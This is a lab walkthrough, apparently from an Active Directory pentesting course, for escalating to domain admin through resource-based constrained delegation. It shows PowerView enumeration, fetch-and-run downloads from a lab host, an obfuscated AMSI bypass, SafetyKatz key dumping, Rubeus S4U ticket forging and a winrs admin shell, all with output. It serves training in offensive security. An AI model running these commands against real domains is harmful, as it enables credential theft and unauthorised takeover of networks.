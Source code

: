 # Learning Objective 17 (Privilege Escalation | Resource-based Constrained Delegation)

## Tasks

1. **Escalate to DA privileges abusing the resource-based constrained delegation**

---

## Attack Path Steps

- **Find a Target Server where we have Write Permissions and Access to it**
- **Set RBCD on the Target Server for the Student Machine**
- **Extract Student Machine TGS Encryption Key Hash**
- **Forge an S4U TGS using the Student Machine TGS Encryption Key Hash for Privilege Escalation**
- **Leverage the Forged Ticket to Gain DA Access to the Target Server**

---

## Solution

1. **Escalate to DA privileges abusing the resource-based constrained delegation**

- **Find a Target Server where we have Write Permissions and Access to it**

Let's use PowerView from a PowerShell session started using Invisi-Shell to enumerate write permissions for a user that we have compromised.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

After trying from multiple users or using BloodHound we would know that the user `ciadmin` has write permissions on the computer object of `dcorp-mgmt`.

`Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}`:
```
ObjectDN                : CN=DCORP-MGMT🖥️,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ListChildren, ReadProperty, GenericWrite📌
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-719815819-3726368948-3917688648-1121
IdentityReferenceName   : ciadmin👤
IdentityReferenceDomain : dollarcorp.moneycorp.local
IdentityReferenceDN     : CN=ci admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
IdentityReferenceClass  : user
```

Recall that we compromised `ciadmin` from `dcorp-ci`. We can either use the reverse shell we have on `dcorp-ci` as `ciadmin` (see *Learning Objective 05*) or extract the credentials from `dcorp-ci`.

Let's use the reverse shell that we have and load PowerView there.

![dcorp-ci | ciadmin](https://custom-icon-badges.demolab.com/badge/dcorp--ci-ciadmin-64b5f6?logo=windows11&logoColor=white)

![HFS - sbloggingbypass.txt](./assets/screenshots/learning_objective_17_hfs_sbloggingbypass.png)

`iex (iwr http://172.16.100.22/sbloggingbypass.txt -UseBasicParsing)`

Use the below command to bypass AMSI.

```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

![HFS - PowerView.ps1](./assets/screenshots/learning_objective_17_hfs_powerview.png)

`iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.22/PowerView.ps1'))`

- **Set RBCD on the Target Server for the Student Machine**

`Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std422$' -Verbose`

Check if RBCD is set correctly.

`Get-DomainRBCD`:
```
[SNIP]

SourceName                 : DCORP-MGMT$🖥️
SourceType                 : MACHINE_ACCOUNT
SourceSID                  : S-1-5-21-719815819-3726368948-3917688648-1108
SourceAccountControl       : WORKSTATION_TRUST_ACCOUNT
SourceDistinguishedName    : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
ServicePrincipalName       : {WSMAN/dcorp-mgmt, WSMAN/dcorp-mgmt.dollarcorp.moneycorp.local, TERMSRV/DCORP-MGMT,
                             TERMSRV/dcorp-mgmt.dollarcorp.moneycorp.local...}
DelegatedName              : DCORP-STD422$📌
DelegatedType              : MACHINE_ACCOUNT
DelegatedSID               : S-1-5-21-719815819-3726368948-3917688648-20687
DelegatedAccountControl    : WORKSTATION_TRUST_ACCOUNT
DelegatedDistinguishedName : CN=DCORP-STD422📌,OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local

[SNIP]
```

- **Extract Student Machine TGS Encryption Key Hash**

Get AES keys of your student VM (as we configured RBCD for it above).

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"`:
```
[SNIP]

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-STD422$🖥️
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/16/2025 8:02:30 AM
SID               : S-1-5-18

         * Username : dcorp-std422$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe🔑
           rc4_hmac_nt       2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_old      2e70361e28e3c071f40f183b001fc3b0
           rc4_md4           2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_nt_exp   2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_old_exp  2e70361e28e3c071f40f183b001fc3b0

[SNIP]
```

- **Forge an S4U TGS using the Student Machine TGS Encryption Key Hash for Privilege Escalation**

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:dcorp-std422$ /aes256:52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt`:
```
[SNIP]

[*] Action: S4U📌

[*] Using aes256_cts_hmac_sha1 hash: 52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\dcorp-std422$'
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!📌
[*] base64(ticket.kirbi):

[SNIP]

[*] Action: S4U📌

[*] Building S4U2self request for: 'dcorp-std422$@DOLLARCORP.MONEYCORP.LOCAL'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2self request to 172.16.2.1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator'🎭 to 'dcorp-std422$🖥️@DOLLARCORP.MONEYCORP.LOCAL'🏛️
[*] base64(ticket.kirbi):

[SNIP]

[*] Impersonating user 'administrator'🎭 to target SPN 'http📌/dcorp-mgmt'🖥️
[*] Building S4U2proxy request for service: 'http/dcorp-mgmt'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2proxy request to domain controller 172.16.2.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'http/dcorp-mgmt':

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x38bfd7

Cached Tickets: (1)

#0>     Client: administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: http📌/dcorp-mgmt🖥️ @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/17/2025 4:58:42 (local)
        End Time:   2/17/2025 14:58:41 (local)
        Renew Time: 2/24/2025 4:58:41 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

- **Leverage the Forged Ticket to Gain DA Access to the Target Server**

`winrs -r:dcorp-mgmt cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator.dcorp>
```
🚀

![dcorp-mgmt | administrator](https://custom-icon-badges.demolab.com/badge/dcorp--mgmt-administrator-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator👤
```

`set computername`:
```
COMPUTERNAME=DCORP-MGMT🖥️
```
🚩

---
---
